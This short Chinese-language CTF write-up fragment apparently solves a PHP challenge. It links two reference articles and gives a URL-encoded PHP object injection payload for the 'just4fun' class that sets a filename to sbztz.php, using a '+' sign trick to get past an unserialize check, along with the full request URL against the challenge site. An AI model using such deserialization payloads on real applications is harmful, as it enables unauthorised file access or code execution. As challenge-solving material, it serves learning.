 ### 攻略：

[http://drops.wooyun.org/papers/596](http://drops.wooyun.org/papers/596)

[http://zone.wooyun.org/content/6697](http://zone.wooyun.org/content/6697)

### 所以：

(1) 生成利用的data:

```
O%3A%2B8%3A"just4fun"%3A1%3A%7Bs%3A8%3A"filename"%3Bs%3A9%3A"sbztz.php"%3B%7D  (注意%2B)

```

(2)

```
http://php4fun.sinaapp.com/c8/index.php?data=O%3A%2B8%3A"just4fun"%3A1%3A%7Bs%3A8%3A"filename"%3Bs%3A9%3A"sbztz.php"%3B%7D

```